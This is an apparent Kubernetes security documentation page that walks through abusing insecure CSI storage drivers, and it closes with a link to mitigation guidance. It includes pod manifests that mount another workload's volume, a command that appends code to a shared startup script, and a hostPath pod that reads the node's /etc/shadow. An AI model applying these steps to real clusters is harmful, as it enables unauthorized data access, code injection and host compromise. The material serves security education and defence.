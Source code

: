 ```yaml
---
sidebar_position: 12
title: "Insecure CSI Drivers"
description: "How attackers exploit insecure Container Storage Interface (CSI) drivers to gain unauthorized access to persistent volumes and sensitive data."
---
```


# Insecure CSI Drivers

**Container Storage Interface (CSI) drivers** enable Kubernetes to manage persistent storage across different backends. If **misconfigured** or **insecure**, CSI drivers can allow attackers to **escalate privileges, access sensitive data, or manipulate persistent storage volumes**.

---

## Exploitation Steps: Abusing Insecure CSI Drivers

An attacker exploits **misconfigured CSI drivers** to access or modify persistent volumes.

### Step 1: Identify Exposed CSI Drivers

The attacker lists available **CSI storage classes** to identify potential misconfigurations:

```bash
kubectl get storageclass
```

If a storage class allows **unauthenticated access** or lacks security controls, the attacker proceeds.

### Step 2: Attach Unauthorized Persistent Volumes

If **CSI drivers allow volume reattachment**, the attacker mounts an existing volume from another pod:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: attacker-pod
spec:
  containers:
    - name: attacker-container
      image: alpine
      command: ["/bin/sh", "-c"]
      args: ["sleep 3600"]
      volumeMounts:
        - mountPath: /data
          name: compromised-volume
  volumes:
    - name: compromised-volume
      persistentVolumeClaim:
        claimName: sensitive-data-pvc
```

```bash
kubectl apply -f attacker-pod.yaml
```

Now, the attacker has **unauthorized access** to sensitive data stored in the volume.

### Step 3: Exploit Weak Volume Policies

If a **CSI storage class** allows **ReadWriteMany (RWX) access**, an attacker can **modify shared storage** and introduce malicious payloads.

```bash
echo "Malicious code" >> /data/startup.sh
```

The next time a legitimate pod starts using this volume, the attacker's code **executes inside the target container**.

### Step 4: Abuse CSI Node Plugins for Host Access

Some **CSI drivers** run with **host-level privileges**, allowing attackers to execute commands directly on the node.

If a CSI plugin allows direct access to the node’s filesystem:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: csi-exploit-pod
spec:
  containers:
    - name: exploit-container
      image: alpine
      command: ["/bin/sh", "-c"]
      args: ["cat /host/etc/shadow"]
      volumeMounts:
        - mountPath: /host
          name: host-mount
  volumes:
    - name: host-mount
      hostPath:
        path: /
        type: Directory
```

Now, the attacker can **read and manipulate system files**.

### Result

The attacker successfully **accessed unauthorized data, modified storage volumes, or escalated privileges** through an insecure CSI driver.

---

## Mitigation Steps

To protect against **insecure CSI drivers**, follow the security best practices outlined in:

➡ **[Securing Kubernetes CSI Drivers](/docs/best_practices/cluster_setup_and_hardening/csi_driver_mitigation)**

This guide covers techniques such as **restricting volume attachments, enforcing PodSecurity policies, disabling privileged CSI plugins, and enabling RBAC controls** to secure storage operations in Kubernetes.
